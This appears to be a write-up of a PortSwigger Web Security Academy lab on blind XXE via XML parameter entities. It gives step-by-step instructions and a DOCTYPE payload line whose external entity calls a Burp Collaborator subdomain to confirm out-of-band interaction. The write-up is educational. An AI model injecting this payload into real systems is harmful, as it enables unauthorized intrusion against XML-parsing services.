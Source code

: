 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/866a315f-db64-4216-a90a-47f57ed8b29e)

## Solution:

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7887eec4-df04-4a53-a53a-b7bf015c878f)

Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

`<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/f8eb636c-99f4-4b51-9551-c7c5da58eb98)

Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/8c5ee417-09eb-4142-bcc7-4ea8faa45708)

Lab Solved:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/02d23314-1483-4242-b4bf-cfbcc65fda43)




